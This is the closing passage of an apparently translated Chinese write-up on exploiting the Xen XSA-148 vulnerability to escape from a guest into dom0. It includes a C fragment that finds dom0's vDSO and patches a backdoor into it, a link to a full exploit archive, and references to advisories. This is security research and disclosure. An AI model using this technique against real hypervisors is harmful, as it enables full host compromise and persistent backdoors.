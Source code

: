 这样,我们可以如同 scumjr 的 SMM后门[5]一样,在 dom0 的 vDSO 中设置后门了。在他的博文中说,vDSO 库由 Linux 内核映射到每个用户进程,很容易发现它。因此,我们只需要解析一次页目录,搜索 vDSO 并给它植入一个后门。

```
if(start_f->flags & SIF_INITDOMAIN)
{
        DEBUG("dom0!");
        dump_page_buff(page, buff);
        tmp = find_vdso_into_L4(page, (pgd_t*) buff);

        if(tmp != 0)
        {
                DEBUG("dom0 vdso : 0x%x", tmp);
                patch_vdso(tmp);
                DEBUG("patch.");
                break;
        }
}
```

* 演示:<https://asciinema.org/a/cwm26vzbjqx0d3eseic51igho>
* 完整利用:<http://blog.quarkslab.com/resources/2016-07-12_xsa-148/code/xsa148_exploit.tar.gz>

# 结论

这个可能是 Xen 有史以来最严重的漏洞,它在被发现前已经存在了7年。如本文所述,利用它来实现 dom0 内代码执行并不难。可以做比修补 vDSO 更多的事,如栾尚聪选择的是超级调用页。

原来这第二部分应该是最后一篇……但我们最近发现了一个新的漏洞可以让客户机逃逸。相关公告已经在昨天公开披露(XSA-182(9),CVE-2016-6258(10),下篇我们将介绍如何编写一个完整的利用。敬请关注!

(1) (1, 2) <http://xenbits.xen.org/xsa/advisory-148.html>

(2) <http://download.intel.com/design/processor/manuals/253668.pdf>

(3) <http://wiki.xen.org/wiki/X86_Paravirtualised_Memory_Management>

(4) <https://github.com/QubesOS/qubes-secpack/blob/master/QSBs/qsb-022-2015.txt>

(5) <https://scumjr.github.io/2016/01/10/from-smm-to-userland-in-a-few-bytes/>

(6) (1, 2) <https://conference.hitb.org/hitbsecconf2016ams/sessions/advanced-exploitation-xen-hypervisor-vm-escape/>

(7) <https://www.blackhat.com/us-16/briefings.html#ouroboros-tearing-xen-hypervisor-with-the-snake>

(8) <http://blog.quarkslab.com/xen-exploitation-part-1-xsa-105-from-nobody-to-root.html>

(9) <http://xenbits.xen.org/xsa/advisory-182.html>

(10) <http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-6258>

[1]: https://p1.ssl.qhimg.com/t01cc39f6c4744f14d5.png
[2]: https://p1.ssl.qhimg.com/t0191f3c2792bba6bd5.png
[3]: https://p5.ssl.qhimg.com/t0192921f0ec6d29bc3.png
[4]: https://p2.ssl.qhimg.com/t019c7724c77a43882b.jpg
[5]: https://p3.ssl.qhimg.com/t01bb8352a38dc19d64.png
[6]: https://p4.ssl.qhimg.com/t01a55b8953562a62ed.png
